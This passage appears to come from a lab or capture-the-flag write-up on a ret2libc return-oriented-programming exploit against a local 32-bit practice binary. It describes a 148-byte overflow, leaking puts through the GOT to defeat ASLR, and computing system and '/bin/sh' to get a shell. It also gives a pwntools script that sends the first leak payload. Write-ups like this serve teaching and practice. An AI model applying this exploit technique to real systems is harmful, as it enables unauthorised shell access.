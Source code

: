 ![img](/ROP/Dynamic/assets/puts_offset.png)

- And offset that we must overwrite is 148 bytes, I found it with magical power :3.

- Then, we must know puts address that randomizes by ASLR. We can leak it by pass the puts@plt address to puts function like an argument after the first call of puts, then we receive the result bytes that is address of puts in libc we want.

- After that, we can calculate the base address of libc and calculate the address of system, then "/bin/sh".

- Finally, get shell :3

```python
# filename: exp2.py 
from pwn import *

elf = ELF("./vuln")

p = elf.process()

# with no PIE so we can use address that we take from gdb
puts_plt = 0x08049080
vuln_addr = 0x080491b6
puts_got = 0x804c010

# offset
binsh_offset = 0x18cb62    # using find libc, libc + offset, "/bin/sh" la ra :3
puts_offset = 0x6c4e0 
sys_offset = 0x41d00

padding = b"a"*148

# payload 1: leak the address of puts in libc
payload_1 = padding
payload_1 += p32(puts_plt)
payload_1 += p32(vuln_addr)
payload_1 += p32(puts_got)

p.sendline(payload_1)

# puts will print '\n' so we need to recvline() after recv the 4 bytes address of puts
```